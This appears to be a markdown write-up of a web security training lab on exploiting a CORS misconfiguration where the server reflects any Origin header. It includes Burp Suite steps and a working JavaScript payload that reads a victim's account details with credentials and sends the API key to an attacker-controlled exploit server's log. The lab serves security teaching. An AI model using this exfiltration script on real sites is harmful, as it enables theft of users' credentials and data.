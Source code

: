 # 🛡️ Lab Guide: CORS Vulnerability with Basic Origin Reflection

This guide shows how to exploit a **CORS vulnerability** where the server reflects arbitrary origins in the `Access-Control-Allow-Origin` header, allowing unauthorized access to sensitive data like API keys using **Burp Suite**. Let’s dive in! 🚀

---

## 📋 Objective
Exploit a CORS misconfiguration that reflects any origin to retrieve the victim’s API key via a malicious script.

---

## 🛠️ Tools Needed
- **Burp Suite** (with Burp’s browser)
- **Repeater** module in Burp Suite
- **Exploit Server** (provided in the lab environment)
- Basic understanding of CORS and JavaScript payloads

---

## 📝 Step-by-Step Instructions

### 1️⃣ Log In and Capture the Request
- Ensure **Intercept** is off in Burp Suite.
- Use **Burp’s browser** to log in and access your account page.
- In **Proxy > HTTP history**, locate the AJAX request to `/accountDetails`.
- Observe the **Access-Control-Allow-Credentials: true** header, indicating CORS support.
- **Right-click** the request and select **Send to Repeater**.

### 2️⃣ Test for Origin Reflection
- In **Repeater**, add the header:
  ```
  Origin: https://0ade00ab0422509d80950392009b0099.web-security-academy.net/
  ```
- Resubmit the request and check the response.
- **Observation**: The response includes `Access-Control-Allow-Origin: https://0ade00ab0422509d80950392009b0099.web-security-academy.net/`, confirming the server reflects arbitrary origins.

### 3️⃣ Craft the Exploit
- Navigate to the **Exploit Server** in the browser.
- Enter the following HTML, replacing `YOUR-LAB-ID` with your lab-specific URL:
  ```html
  <script>
  var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open('get','https://0ade00ab0422509d80950392009b0099.web-security-academy.net/accountDetails',true);
      req.withCredentials = true;
      req.send();

      function reqListener() {
          location='/log?key='+this.responseText;
      };
  </script>
  ```
- **Note**: This script makes a cross-origin request to `/accountDetails` and logs the API key to the exploit server.

### 4️⃣ Test and Deliver the Exploit
- Click **View exploit** to verify the exploit works. You should land on the log page with the API key in the URL.
- Go back to the **Exploit Server** and click **Deliver exploit to victim**.
- Access the **Access log**, retrieve the victim’s API key, and submit it to complete the lab.